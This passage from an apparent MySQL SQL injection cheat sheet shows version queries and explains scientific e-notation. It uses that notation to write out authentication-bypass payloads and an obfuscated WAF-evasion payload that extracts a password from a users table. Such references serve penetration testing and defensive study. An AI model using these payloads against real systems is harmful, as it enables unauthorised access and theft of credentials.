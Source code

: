 ```sql
| users          |
+----------------+
```


### Alternative to version

```sql
mysql> select @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+

mysql> mysql> select version();
+-------------------------+
| version()               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
+-------------------------+
```


### Scientific Notation

In MySQL, the e notation is used to represent numbers in scientific notation. It's a way to express very large or very small numbers in a concise format. The e notation consists of a number followed by the letter e and an exponent.
The format is: `base 'e' exponent`.

For example: 
* `1e3` represents `1 x 10^3` which is `1000`. 
* `1.5e3` represents `1.5 x 10^3` which is `1500`. 
* `2e-3` represents `2 x 10^-3` which is `0.002`. 

The following queries are equivalent: 
* `SELECT table_name FROM information_schema 1.e.tables` 
* `SELECT table_name FROM information_schema .tables` 

In the same way, the common payload to bypass authentication `' or ''='` is equivalent to `' or 1.e('')='` and `1' or 1.e(1) or '1'='1`. 
This technique can be used to obfuscate queries to bypass WAF, for example: `1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2` 


### Conditional Comments
